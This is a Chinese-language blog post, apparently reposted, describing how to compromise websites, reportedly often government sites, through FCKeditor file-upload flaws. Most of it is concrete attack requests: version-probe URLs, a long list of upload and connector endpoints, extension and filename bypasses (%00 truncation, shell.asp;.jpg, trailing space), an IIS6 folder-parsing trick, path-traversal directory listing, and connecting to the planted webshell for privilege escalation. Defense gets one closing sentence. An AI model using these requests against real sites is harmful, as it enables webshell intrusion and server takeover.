


一. 关于FCKeditor
FCKeditor是一个网页的文本编辑器，在很多的cms里都有出现。近日工作期间遇到了不下十个有FCKeditor的站，尤其是ZF网站。
本文简单介绍通过FCKeditor上传漏洞进行攻击的思路，并对可能用到的操作进行整理。
二. 攻击思路
1.查看FCKeditor版本
1
2
| http://127.0.0.1/fckeditor/editor/dialog/fck_about.html
http://127.0.0.1/FCKeditor/_whatsnew.html |


2.测试上传点
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
| FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html
FCKeditor/_samples/default.html
FCKeditor/_samples/asp/sample01.asp
FCKeditor/_samples/asp/sample02.asp
FCKeditor/_samples/asp/sample03.asp
FCKeditor/_samples/asp/sample04.asp
FCKeditor/_samples/default.html
FCKeditor/editor/fckeditor.htm
FCKeditor/editor/fckdialog.html
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector.jsp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/php/connector.php
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/aspx/connector.aspx
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/jsp/connector.jsp
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/aspx/connector.Aspx
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/php/connector.php |
3.突破限制
3.1 上传限制
上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等
3.2 文件名限制
3.2.1二次上传绕过文件名‘ . ’ 修改为‘ _ ’
FCK在上传了诸如shell.asp;.jpg的文件后，会自动将文件名改为shell_asp;.jpg。可以继续上传同名文件，文件名会变为shell.asp;(1).jpg
3.2.2提交shell.php+空格绕过
空格只支持windows系统，linux系统是不支持的，可提交shell.php+空格来绕过文件名限制。
3.3 IIS6.0突破文件夹限制
1
2
3
| Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
|
3.4 文件解析限制
通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。
1
| http://127.0.0.1/images/upload/201806/image/1.asp/1.jpg |
4.列目录
4.1 FCKeditor/editor/fckeditor.html
FCKeditor/editor/fckeditor.html不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。
4.2 根据xml返回信息查看网站目录
1
| http://127.0.0.1/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp |
4.3 获取当前文件夹
1
2
3
| FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ |
4.4 浏览E盘文件
1
| /FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=e:/ |
5. 连接木马
在木马能够解析之后，使用各类工具连接到木马，获取webshell。至此，利用FCKeditor进行文件上传并攻击的过程就已经完成。
三. 其他
最近的工作中遇到的站里大多数都存在FCKeditor编辑器，基本都存在以上漏洞，可以说是非常严重的问题。
在获取到webshell之后，可以进行的操作非常多，也便于提权操作，拿下主机权限并不困难。
关于该漏洞的防御，可以删除掉所有的上传点，并限制目录访问。

推荐阅读：
Fckeditor上传各版本绕过 | 内含彩蛋
Fckeditor漏洞Getshell
作者：Jacky Cheng
如有侵权，请联系删除
原文链接：https://cjjkkk.github.io/fckeditor-upload/